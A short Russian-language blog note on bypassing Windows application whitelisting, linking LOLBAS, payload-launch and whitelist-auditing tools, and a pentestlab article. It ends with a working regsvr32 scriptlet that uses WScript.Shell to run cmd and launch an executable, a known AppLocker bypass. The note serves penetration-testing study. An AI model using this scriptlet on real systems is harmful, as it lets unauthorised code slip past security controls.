 ```yaml
---
layout: post
categories: articles
tags:
  - ru
  - windows
published: true
ru: true
---
```


# Оглавление
{:.no_toc}

* toc
{:toc}

# Введение
В принципе, вариантов у нас немного, либо ищем бинарники которые мы можем запускать и которые могут что-то запускать, либо ищем бинарники которые можно запускать и которым мы можем менять конфиги, как например пути к либам.

А еще есть ПроцесХайджекинг, но про него я много не знаю.

# Ссылки
[Запуск пейлоада с помощью .NET](https://github.com/khr0x40sh/WhiteListEvasion)

[Список всех интересных бинарников винды которые могут быть использованны против неё](https://lolbas-project.github.io/)

[Исходники штуки которая ищет недостатки в вайтлистинге на конкретной машине](https://github.com/cyberark/Evasor/)

[Обход вайтлиста с помощью regsvr32](https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/)

Пример кода для regsvr32

~~~
<?XML version="1.0"?>
<scriptlet>
<registration         
progid="Pentest"       
classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="JScript">
 
<![CDATA[   
var r = new ActiveXObject("WScript.Shell").Run("cmd /k cd c:\ & pentestlab.exe"); 
]]>
 
</script>
</registration>
</scriptlet>
</code>
~~~
